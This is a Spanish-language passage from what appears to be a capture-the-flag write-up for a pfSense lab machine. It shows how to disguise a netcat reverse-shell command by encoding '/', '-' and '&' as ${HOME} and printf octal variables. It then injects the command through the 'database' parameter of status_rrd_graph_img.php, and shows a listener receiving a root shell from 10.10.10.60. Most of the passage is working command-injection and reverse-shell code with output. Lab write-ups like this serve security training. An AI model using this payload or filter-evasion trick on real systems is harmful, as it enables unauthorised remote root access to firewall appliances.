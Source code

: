Tenemos la variable **HOME** cuyo valor de **/**, por lo que podemos sustituir `/` por `${HOME}` y en el caso del **-**, si checamos el manual de ASCII corresponde a 055 en octal; por lo tanto, podriamos declarar una variable `guion=$(printf '\055')` y reemplezar los `-` por `${guion}`. De forma similar para **&** corresponde a 046 en octal y la variable seria `guion=$(printf '\046')`.

La expresión nos quedaría de la siguiente forma:

```bash
❯ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f" | tr ' ' '+' | sed 's/\//${HOME}/g' | sed 's/-/${guion}/g' | sed 's/&/${amper}/g'
rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${amper}1|nc+10.10.14.27+443+>${HOME}tmp${HOME}f
```

Asi que al final, nuestra reverse shell quedaría de la siguiente forma:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;guion=$(printf+'\055');amper=$(printf+'\046');rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${amper}1|nc+10.10.14.27+443+>${HOME}tmp${HOME}f
```

Nos pondemos en escucha por el puerto 443

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 14383
whoami
root
```

Ya nos encontramos dentro de la máquina como el usuario **root** y podemos visualizar las flags (usert.txt y root.txt).

Se comparte un autopwn de la máquina [Sense-Autopwn](https://github.com/k4miyo/Sense-Autopwn).
